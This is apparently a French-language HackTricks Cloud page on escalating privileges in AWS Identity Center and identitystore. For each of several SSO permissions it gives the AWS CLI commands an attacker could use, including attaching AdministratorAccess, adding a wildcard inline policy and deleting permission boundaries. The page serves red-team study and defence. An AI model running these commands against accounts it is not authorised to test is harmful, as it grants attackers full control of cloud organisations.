 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Pour plus d'informations sur AWS Identity Center / AWS SSO, consultez :

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Notez qu'en **default**, seuls les **utilisateurs** ayant des permissions **du** **compte de gestion** pourront accéder et **contrôler le centre d'identité IAM**.\
Les utilisateurs d'autres comptes ne peuvent le permettre que si le compte est un **administrateur délégué.**\
[Consultez la documentation pour plus d'infos.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Réinitialiser le mot de passe~~

Un moyen facile d'escalader les privilèges dans des cas comme celui-ci serait d'avoir une permission qui permet de réinitialiser les mots de passe des utilisateurs. Malheureusement, il n'est possible d'envoyer un e-mail à l'utilisateur pour réinitialiser son mot de passe, donc vous auriez besoin d'accéder à l'e-mail de l'utilisateur.

### `identitystore:CreateGroupMembership`

Avec cette permission, il est possible de placer un utilisateur dans un groupe afin qu'il hérite de toutes les permissions que le groupe possède.
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Un attaquant avec cette permission pourrait accorder des permissions supplémentaires à un Ensemble de Permissions qui est accordé à un utilisateur sous son contrôle.

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Un attaquant avec cette permission pourrait accorder des permissions supplémentaires à un Ensemble de Permissions qui est accordé à un utilisateur sous son contrôle.

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Un attaquant avec cette permission pourrait accorder des permissions supplémentaires à un ensemble de permissions qui est accordé à un utilisateur sous son contrôle.

{% hint style="warning" %}
Pour abuser de ces permissions dans ce cas, vous devez connaître le **nom d'une politique gérée par le client qui se trouve dans TOUS les comptes** qui vont être affectés.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Un attaquant disposant de cette autorisation pourrait attribuer un ensemble de permissions à un utilisateur sous son contrôle pour un compte.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Renvoie les informations d'identification à court terme STS pour un nom de rôle donné qui est attribué à l'utilisateur.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Cependant, vous avez besoin d'un jeton d'accès que je ne sais pas comment obtenir (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Un attaquant ayant cette autorisation peut supprimer l'association entre une politique gérée par AWS et l'ensemble de permissions spécifié. Il est possible d'accorder plus de privilèges en **détachant une politique gérée (politique de refus)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Un attaquant avec cette permission peut supprimer l'association entre une politique gérée par le client et l'ensemble de permissions spécifié. Il est possible d'accorder plus de privilèges en **détachant une politique gérée (politique de refus)**.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Un attaquant avec cette permission peut supprimer les permissions d'une politique intégrée du jeu de permissions. Il est possible d'accorder **plus de privilèges en détachant une politique intégrée (politique de refus)**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Un attaquant avec cette permission peut supprimer la Limite de Permission de l'ensemble de permissions. Il est possible d'accorder **plus de privilèges en supprimant les restrictions sur l'ensemble de permissions** donné par la Limite de Permission.

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
